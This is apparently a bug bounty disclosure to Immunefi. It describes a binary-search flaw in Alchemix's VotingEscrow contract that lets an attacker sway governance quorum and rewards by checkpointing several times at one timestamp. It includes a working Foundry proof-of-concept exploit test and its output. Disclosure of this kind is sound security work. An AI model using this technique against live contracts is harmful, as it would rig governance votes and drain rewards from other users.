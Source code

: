 
# Binary search does not correctly handle duplicate timestamps

Submitted on Thu May 02 2024 23:25:10 GMT-0400 (Atlantic Standard Time) by @Holterhus for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #30655

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/VotingEscrow.sol

Impacts:
- Manipulation of governance voting result deviating from voted outcome and resulting in a direct change from intended effect of original results

## Description
## Brief/Intro
Throughout the `VotingEscrow` contract, there are several functions that conduct a binary search to determine the first entry containing a timestamp that's before or equal to a target timestamp. In some of these functions, the binary search does not deterministically handle the scenario where multiple exact matches exist. By strategically checkpointing multiple times on a given timestamp, an attacker can inflate the relative amount of power the system considers them to have. This behavior can be abused to change the results of a governance proposal, or to receive more rewards than intended.

## Vulnerability Details
The `totalSupplyAtT()` function has the following binary search implementation:

```solidity
if (t < lastPoint.ts) {
    uint256 lower = 0;
    uint256 upper = _epoch - 1;

    while (upper > lower) {
        uint256 center = upper - (upper - lower) / 2;
        lastPoint = pointHistory[center];
        if (lastPoint.ts == t) {
            lower = center;
            break;
        } else if (lastPoint.ts < t) {
            lower = center;
        } else {
            upper = center - 1;
        }
    }

    lastPoint = pointHistory[lower];
}
```

Notice that in this function, the binary search is instantly concluded when a match is found. This behavior means that `totalSupplyAtT()` can potentially return *any* of the exact matches in the `pointHistory` mapping. This is incorrect. An example of a correct implementation would be something similar to `_balanceOfTokenAt()`, which always returns the "right-most" (i.e. most recent) exact match. 

This would not be a problem if each entry had a unique timestamp. However, there *can* be duplicate timestamps in the `pointHistory` entries (for example, notice how `_checkpoint()` will always increase `_epoch` by 1). On the other hand there *can't* be duplicate timestamps in the`checkpoints` mapping (for example, see the `_findWhatCheckpointToWrite()` function).

So, in the case of an exact timestamp match, the `getPastVotes()` and `balanceOfTokenAt()` functions always return the state when the timestamp ended, but the `totalSupplyAtT()` function can return any of the states from that timestamp. This leads to incorrect results in places that compare values from both functions (e.g. in the `claimable()` calculation in the `RevenueHandler`, or the `_quorumReached()` function in the `AlchemixGovernor`)

## Impact Details

Consider, for example, the following scenario:

- A proposal in the `AlchemixGovernor` has a snapshot timestamp at time `t`.
- At exactly time `t`, an attacker calls `checkpoint()` and then `createLock()` in the `VotingEscrow` contract.
- There are now two entries in `pointHistory` at timestamp `t` - one with the increased supply from `createlock()`, and one with the original supply.
- The `totalSupplyAtT()` function can return either one depending on the number of epochs. The attacker can force the original supply to be returned by arbitrarily adding more checkpoints (to change the result of the binary search).
- Now, the `_quorum()` value can be arbitrarily changed by calling `checkpoint()`. This means the governance can consider some proposals to have reached quorum, even though they did not.


Other than this, it appears that `RevenueHandler` logic can be tricked into giving a user too many tokens (more than 100% of the entire epoch even).


## References
See the proof of concept below.
        
## Proof of concept
## Proof of Concept

I've created the following test case which can be added to the `AlchemixGovernorTest` contract:

```solidity
function testBinarySearchExploit() public {
    /******************************************************************* 
    *    Step 1: someone makes a proposal
    ********************************************************************/
    assertFalse(voter.isWhitelisted(usdc));

    (address[] memory t, uint256[] memory v, bytes[] memory c, string memory d) = craftTestProposal();
    hevm.warp(block.timestamp + 2 days); // delay

    hevm.startPrank(admin);
    uint256 pid = governor.propose(t, v, c, d, MAINNET);
    uint256 proposalSnapshot = governor.proposalSnapshot(pid);
    address attacker = address(uint160(uint256(bytes32(keccak256("attacker")))));

    /*******************************************************************
    *    Step 2: the proposal snapshot timestamp arrives,
    *    attacker does the exploit
    ********************************************************************/
    hevm.roll(block.number + 1);
    hevm.warp(proposalSnapshot);

    uint256 quorumEstimate = governor.quorum(proposalSnapshot);
    veALCX.checkpoint();
    createVeAlcx(attacker, quorumEstimate * 55 / 100, MAXTIME, false);

    /******************************************************************* 
    *    Step 3: the voting period starts now, the quorum is broken
    ********************************************************************/
    hevm.roll(block.number + 1);
    hevm.warp(block.timestamp + governor.votingDelay() + 1);

    // Notice that the quorum can be changed by adding new checkpoints.
    // This is just for demonstration purposes. Doing exactly 5 checkpoints gets the attacker
    // back to the larger value (which out of their favor).
    for (uint256 i; i < 5; ++i) {
        veALCX.checkpoint();
        uint256 votingPower = veALCX.getPastVotes(attacker, proposalSnapshot);
        uint256 quorum = governor.quorum(proposalSnapshot);
        console2.log("votingPower:", votingPower);
        console2.log("quorum:", quorum);
        console2.log("attacker has enough voting power:", votingPower >= quorum);
        console2.log("-----------------------");
    }

    hevm.startPrank(attacker);
    governor.castVote(pid, 1);
    hevm.warp(block.timestamp + governor.votingPeriod() + 1); // voting period
    hevm.stopPrank();

    // Currently the vote has failed
    console2.log("Result before:", uint8(governor.state(pid)));

    // But checkpointing now will make it have succeeded
    veALCX.checkpoint();
    console2.log("Result after:", uint8(governor.state(pid)));

    // So now it can actually be executed despite not reaching quorum
    hevm.startPrank(admin);
    hevm.warp(block.timestamp + timelockExecutor.executionDelay() + 1); // execution delay
    governor.execute(t, v, c, keccak256(bytes(d)), MAINNET);
    hevm.stopPrank();

    assertTrue(voter.isWhitelisted(usdc));
}
```

By running `forge test --rpc-url <ETH_RPC_URL> --match-test testBinarySearchExploit -vvv` I get the following output:


```
[PASS] testBinarySearchExploit() (gas: 2244701)
Logs:
  votingPower: 42574534183000734522912
  quorum: 39346923145662095306947
  attacker has enough voting power: true
  -----------------------
  votingPower: 42574534183000734522912
  quorum: 39346923145662095306947
  attacker has enough voting power: true
  -----------------------
  votingPower: 42574534183000734522912
  quorum: 39346923145662095306947
  attacker has enough voting power: true
  -----------------------
  votingPower: 42574534183000734522912
  quorum: 47861829982262242211529
  attacker has enough voting power: false
  -----------------------
  votingPower: 42574534183000734522912
  quorum: 47861829982262242211529
  attacker has enough voting power: false
  -----------------------
  Result before: 3
  Result after: 4
```

which shows that a governance proposal can have its result manipulated.